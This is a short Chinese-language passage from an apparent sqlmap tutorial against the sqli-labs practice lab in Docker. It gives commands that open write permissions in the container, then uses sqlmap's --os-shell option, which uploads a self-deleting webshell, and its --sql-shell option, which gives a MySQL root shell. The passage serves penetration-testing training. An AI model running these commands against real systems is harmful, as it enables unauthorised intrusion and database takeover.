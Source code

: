 
尝试写入webshell，这个靶场有点问题，进入docker内，授权写权限

```bash
docker exec -it sqli-lab /bin/sh
chmod 777 -R /var/www/html/
```

使用`--os-shell`参数，获得一个交互的shell，<p color="red">注意：这个过程会上传webshell，如果你需要手动指定目录时，不要使用--batch参数，如果是常见的/var/www/html/目录，sqlmap可以自动尝试上传到这个目录下</p>

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" -p id --dbms=mysql --os-shell --flush-session --batch
```

退出这个webshell后，这个webshell会自动删除自身

![26](/medias/sqlmap/26.png)

使用`--sql-shell`参数，获得一个交互的sqlshell

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" -p id --dbms=mysql --sql-shell --flush-session --batch
```

拿到了sqlshell，可以执行sql语句，当前是mysql的root用户
